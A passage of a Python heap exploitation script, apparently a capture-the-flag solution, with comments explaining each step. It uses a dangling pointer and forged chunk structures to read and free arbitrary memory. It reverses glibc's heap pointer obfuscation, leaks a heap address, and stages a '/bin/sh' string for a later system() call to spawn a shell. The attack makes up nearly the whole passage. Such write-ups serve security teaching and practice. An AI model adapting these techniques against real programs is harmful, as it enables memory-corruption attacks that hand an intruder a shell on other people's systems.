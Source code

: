 ```python  
   add(b'A' * 24)  
   add(b'B' * 24)  
   delete(idx)  
   delete(idx + 1)  
   # 2. Discard a chunk (allocate with size > 24)  
   add(b'C' * 64)  
   # 3. Craft a fake chunk_t  
   add(p64(l) + p64(1) + p64(ptr))  
   # Use the dangling pointer from chunk idx, to read from wherever we like  
   return view(idx)

# Can we also use something similar to write anywhere we like? Unfortunately
not.  
# We can only write to a chunk when we allocate it and not while it's in the
tcache.  
# Therefore we cannot overwrite a chunk's fwd pointer (it would work if we had
a double free).  
# However, we can use the previous idea to free an arbitrary pointer, giving
us more control over the heap.  
# To do so, instead of viewing the faked chunk, we simply delete it again, so
that the pointer from  
# the fake chunk_t is freed as well  
def free(ptr):  
   idx = chunk_idx  
   # Same idea as before  
   # 1. free 2 chunks of size 24  
   add(b'A' * 24)  
   add(b'B' * 24)  
   delete(idx)  
   delete(idx + 1)  
   # 2. Discard a chunk  
   add(b'C' * 64)  
   # 3. Craft a fake chunk_t  
   add(p64(8) + p64(1) + p64(ptr))  
   # When we delete the fake chunk_t, the given ptr is also freed  
   delete(idx)

# Defeat glibc's heap pointer obfuscation  
# mangled = ptr ^ (address >> 12), where address is the address the pointer is
stored at  
# If the pointer is stored in the same page, we can fully recover the leaked
pointer value,  
# as we know the first 12 bits  
def deobfuscate(val):  
   mask = 0xfff << 52  
   while mask:  
       v = val & mask  
       val ^= (v >> 12)  
       mask >>= 12  
   return val

# "/bin/sh" string we later use for system() call  
add(b"/bin/sh")

# Leak a heap address  
# When we free() a chunk it gets put into the tcache  
add(b'K' * 24)  
add(b'L' * 24)  
delete(1)  
delete(2)  
add(b'\x00', l=24)  
heap = (deobfuscate(u64(view(3)[:8])) >> 12) << 12  
log.info(f'Heap @{hex(heap)}')
```
